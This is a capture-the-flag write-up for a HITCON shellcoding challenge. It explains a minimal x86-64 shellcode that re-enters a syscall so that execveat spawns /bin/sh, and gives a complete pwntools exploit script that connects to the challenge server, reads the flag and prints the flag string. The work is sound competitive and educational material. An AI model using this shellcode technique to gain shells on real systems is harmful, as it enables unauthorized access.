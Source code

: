 # Re: Easy to say
## Misc 255
> 30 solved

* disasm('\x75\xfa')
```asm
jne    0xfffffffffffffffc
```
* payload:
```asm
push rsp
pop rsi
xor edx,esp
syscall
jne    0xfffffffffffffffc
```
* First time read the `/bin/sh\x00` with padding to let length of it become 322 to the stack.
* After `jne` it continue at `xor edx,esp` with `rax = 322` , `rdx = edx ^ esp ^ esp = 0` , `rsi = /bin/sh`.
* Syscall again -> execveat( 0 , "/bin/sh" , 0 , 0 ).
```python
#!/usr/bin/env python
from pwn import *

# hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}

context.arch = 'amd64'

host , port = '13.112.180.65' , 8361
y = remote( host , port )

sc = flat(
    0x3148ed3148fc8948,
    0x48c93148db3148c0,
    0xf63148ff3148d231,
    0x314dc9314dc0314d,
    0x4de4314ddb314dd2,
    0xff314df6314ded31,
    0x0000000000c48148
)[:-1]

#print disasm( sc )

_asm = '''
push rsp
pop rsi
xor edx,esp
syscall
'''

y.sendafter( ':' , asm( _asm ) + '\x75\xfa'  ) # jne    0xfffffffffffffffc -> jne -4

sleep(0.7)

y.send( '/bin/sh'.ljust( 322 , '\x00' ) )

sleep( 0.7 )

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```